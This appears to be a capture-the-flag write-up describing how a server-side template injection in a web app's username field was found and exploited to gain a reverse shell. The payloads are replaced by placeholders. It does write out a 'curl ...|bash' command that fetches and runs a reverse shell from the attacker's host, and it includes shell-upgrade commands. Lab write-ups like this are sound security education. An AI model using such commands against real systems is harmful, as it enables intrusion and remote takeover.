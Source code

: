 ## SSTI
Under the path `/account`, the representative account username is displayed.
This is important to test further since it could display an SSTI vulnerability.
By creating a new account with `UPDATE WITH SSTI` as username, the username displayed when logged in should display `25` if it is vulnerable.
If not, it could be filtered to bypass, or the correct field still needs to be found.


After creating an account with username `UPDATE WITH SSTI`, the account path does show `25`, which means it has an SSTI vulnerability, as expected from the name and category.
This could be exploited with os commands and reverse shell.


To get a foothold, Hacktricks is a fantastic tool with many copy-paste codes that could be pasted into the username field with some modifications to make it do what we want.
The cheat sheet for SSTI at hacktrick is found at: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection .


All the snippets from this site were tested, but all were rejected by the server as a hacking attempt.
This means we have to find other ways to bypass different filters which could be used.
For this, I found this site through Google: https://hackmd.io/@Chivato/HyWsJ31dI#RCE-bypassing-as-much-as-I-possibly-can


**The one used was this**:

`UPDATE WITH SSTI`

While this should bypass most filters, the SSTI command above was rejected.
I tested the same but changed the `'` to, `"` and this was the last bypass needed.

`UPDATE WITH SSTI`

This gave the result in the username field of the account endpoint, `bill`, which means that the `bill` user on the server is the user who owns the running service.
This would also make the reverse shell identity `bill` after successful exploitation.
For the process of gaining foothold, it is essential to start a listener.
When testing basic reverse shells, it was either reported as a hacking attempt or not giving a result to the listener.
Then I tested with a simple curl command to my IP and the listening port, which gave a hit.
This means we could create a simple bash reverse shell in a file and then open a Python server, making the curl command possible to access the file.
Therefore, changing `whoami` from the SSTI above to `curl http://IP:port/reverseshellfile|bash` would collect and execute the code.

`UPDATE WITH SSTI`

After inserting this as the username and creating the account, a reverse shell is spawned when accessing the `/account` path.
This gave foothold as `bill`, and the first flag was found under `/home/bill/flagg1.txt`.


# Useful commands for a better shell:
```
1. on the target: python3 -c 'import pty;pty.spawn("/bin/bash")'
2. on the target: export TERM=xterm
3. on the target: Ctrl + Z
4. in the same window as the target is being backgrounded: stty raw -echo; fg
5. on the target: stty rows 38 columns 116
```
